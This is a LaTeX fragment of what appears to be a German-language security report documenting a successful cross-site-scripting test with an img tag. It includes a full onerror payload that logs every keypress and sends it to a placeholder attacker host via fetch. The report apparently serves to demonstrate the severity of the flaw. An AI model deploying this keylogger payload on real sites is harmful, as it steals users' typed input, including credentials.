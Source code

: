 \documentclass[
    a4paper,
    pagesize,
	pdftex,
    12pt,
]{scrartcl}
\begin{document}
\begin{figure}[H]
	\centering
	\includegraphics[width=14cm]{xss-img-tag-injection-success.png}
	\caption{Erfolgreiche XSS-Ausführung mit img-Tag}
	\label{fig:xss-img-tag-injection-success}
\end{figure}
\begin{figure}[H]
	\centering
	\includegraphics[width=14cm]{xss-img-tag-injection-success-2.png}
	\caption{Erfolgreiche XSS-Ausführung mit img-Tag, Zoom auf das Alert-Fenster}
	\label{fig:xss-img-tag-injection-success-2}
\end{figure}

\noindent Wie in der Abbildung zu sehen ist, war diese Methode erfolgreich und löste wie erwartet ein Alert-Fenster aus.

\noindent Um die Schwere der XSS-Schwachstelle zu verdeutlichen, wurden zwei Angriffsvektoren getestet.

\noindent Zunächst wurde ein Keylogger eingesetzt, der jeden Tastendruck an einen externen Server sendet:
\begin{lstlisting}[breaklines]
	<img src="" onerror="document.addEventListener('keypress', function(e) { fetch('http://attacker.tld?key=' + String.fromCharCode(e.which)); }); this.remove();">
\end{lstlisting}
\end{document}
